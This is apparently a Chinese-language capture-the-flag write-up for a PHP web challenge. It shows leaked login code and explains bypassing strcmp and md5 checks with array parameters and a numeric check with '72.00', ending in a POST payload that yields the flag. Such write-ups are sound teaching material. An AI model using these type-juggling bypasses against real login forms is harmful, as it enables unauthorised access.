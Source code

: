 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.扫描网站可以看到一个`challenge18.php~`文件，获得php主要逻辑代码：

```php
<?php
    if(isset($_POST['login']))
     {
        if(isset($_POST['user']))
        {
            if(@strcmp($_POST['user'],$USER))//USER是被隐藏的复杂用户名
            {
                die('user错误！');
            }
        }
        if (isset($_POST['name']) && isset($_POST['password']))
        {
            if ($_POST['name'] == $_POST['password'] )
            {
                die('账号密码不能一致！');
            }
            if (md5($_POST['name']) === md5($_POST['password']))
            {
                if(is_numeric($_POST['id'])&&$_POST['id']!=='72' && !preg_match('/\s/', $_POST['id']))
                {
                        if($_POST['id']==72)
                            die("flag{xxxxxxxxxxxxx}");
                        else
                            die("ID错误2！");
                }
                else
                {
                    die("ID错误1！");
                }
            }
            else
                die('账号密码错误！');
        }
     }
 ?>
```

3.这里有3个需要绕过的地方， `if(@strcmp($_POST['user'],$USER))//USER是被隐藏的复杂用户 `
这里需要用数组弱类型绕过 用户名密码MD5的相等，如果`==`可以考虑科学计数法，这里是`===`，也是数组绕过， 最后一点id，不能为数字72，又不能等于字符串`’72’`，不包含空白符，这里也是弱类型，floor类型`72.00`

4.构造payload：

`POST: user[]=dsa&name[]=1&password[]=2&id=72.00&login=Check`

5.获取flag：

![](files_for_writeup/2.png)

